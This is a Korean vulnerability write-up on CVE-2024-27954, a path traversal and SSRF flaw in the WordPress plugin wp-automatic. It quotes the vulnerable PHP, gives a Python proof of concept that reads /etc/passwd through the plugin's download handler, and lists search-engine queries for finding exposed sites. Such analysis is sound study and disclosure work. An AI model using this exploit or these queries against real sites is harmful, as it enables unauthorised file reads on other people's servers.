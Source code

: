 ```yaml
---
title: "[CVE-2024-27954] 취약점 분석 보고서"
description: "wordpress plugin wp-automatic 3.92.1 버전 미만에서 발생하는 Path Traversal & SSRF 취약점"
author: khh
date: 2024-12-02 13:50:00 +0900
categories: [One-Day 분석, WordPress]
tags: [빡공팟, 콘테스트 네뷸라, WordPress, wp-automatic, CVE, CVE-2024-27954]
image: assets/img/wordpress-thumbnail.png
exclude_img: true
---
```


## **개요**

CVE-2024-27954는 WP-automatic 플러그인  3.92.1 버전 미만에서 발생하는 Path traveral 와 SSRF 취약점이다. 이를 통해 공격자는 임의 위치에 접근할 수 있으며 민감한 파일에 액세스할 수 있다.

## **Search Engine Queries**

FOFA = body="wp-content/plugins/wp-automatic" && header="HTTP/1.1 200 OK"

ZoomEye = title:"wp-automatic" response.status_code:200

Shodan = http.title:"wp-automatic" http.status:200

Publicwww = "/wp-content/plugins/wp-automatic"

---

## **취약점**

### \wp-content\plugins\wp-automatic\wp-automatic.php

```php
/**

* custom request for cron job

*/

function wp_automatic_parse_request($wp) {

//secret word

$wp_automatic_secret = wp_automatic_trim(get_option('wp_automatic_cron_secret'));

if(wp_automatic_trim($wp_automatic_secret) == '') $wp_automatic_secret = 'cron';

// only process requests with "my-plugin=ajax-handler"

if (array_key_exists('wp_automatic', $wp->query_vars)) {

	if($wp->query_vars['wp_automatic'] == $wp_automatic_secret){

		require_once(dirname(__FILE__) . '/cron.php');

		exit;

	}elseif ($wp->query_vars['wp_automatic'] == 'download'){

		require_once 'downloader.php';

		exit;

	}elseif ($wp->query_vars['wp_automatic'] == 'test'){

		require_once 'test.php';

		exit;

	}elseif($wp->query_vars['wp_automatic'] == 'show_ip'){

		$ch = curl_init();

		curl_setopt($ch, CURLOPT_HEADER,0);

		curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);

		curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 10);

		curl_setopt($ch, CURLOPT_TIMEOUT,20);

		curl_setopt($ch, CURLOPT_REFERER, 'http://www.bing.com/');

		curl_setopt($ch, CURLOPT_USERAGENT, 'Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.0.8) Gecko/2009032609 Firefox/3.0.8');

		curl_setopt($ch, CURLOPT_MAXREDIRS, 5); // Good leeway for redirections.

		curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1); // Many login forms redirect at least once.
```

---

wp-automatic 매개변수로 “download”로 설정하면 download.php에 액세스할 수 있다.

### \wp-content\plugins\wp-automatic\downloader.php

```php
$link=$_GET['link'];//urldecode();

$link=wp_automatic_str_replace('httpz','http',$link);

//$link='http://ointmentdirectory.info/%E0%B8%81%E0%B8%B2%E0%B8%A3%E0%B9%81%E0%B8%AA%E0%B8%94%E0%B8%87%E0%B8%A0%E0%B8%B2%E0%B8%9E%E0%B8%99%E0%B8%B4%E0%B9%88%E0%B8%87-%E0%B8%97%E0%B8%AD%E0%B8%94%E0%B8%9B%E0%B8%A5%E0%B8%B2%E0%B9%80%E0%B8%9E';

//  echo $link ;

//exit ;

$ch = curl_init();

curl_setopt($ch, CURLOPT_URL, wp_automatic_trim($link));

curl_setopt($ch, CURLOPT_HEADER, 1);

curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);

curl_setopt($ch, CURLOPT_CONNECTTIMEOUT, 20);

curl_setopt($ch,CURLOPT_TIMEOUT, 30);

curl_setopt($ch, CURLOPT_REFERER, 'http://bing.com');

curl_setopt($ch, CURLOPT_USERAGENT, 'Mozilla/5.0 (Windows; U; Windows NT 5.1; en-US; rv:1.9.0.8) Gecko/2009032609 Firefox/3.0.8');

curl_setopt($ch,CURLOPT_MAXREDIRS, 5); // Good leeway for redirections.

curl_setopt($ch,CURLOPT_FOLLOWLOCATION, 0); // Many login forms redirect at least once.

$exec=curl_exec_follow($ch);
```

---

$_GET[‘link’] 파라미터에 임의의 URL을 요청하면 서버에서 URL 요청을 수행한다. URL을 요청할 때 입력 검증을 하지 않기 때문에 임의 파일에 액세스할 수 있다.

![image.png](assets/posts/one-day/2024-12-02/image-001.png)

### **POC**


```python
import requests

url = "http://localhost:8080/"

params = {

"p": "3232",

"wp_automatic": "download",

"link": "file:///etc/passwd"

}

res = requests.get(url, params=params)

if res.status_code == 200:

print(res.text)

else:

print(res.status_code)
```

---

![image.png](assets/posts/one-day/2024-12-02/image-002.png)

## **패치**

공급업체는 nonce 검사를 적용하기로 결정했고, $link 변수에 대한 검증을 하기로 했습니다.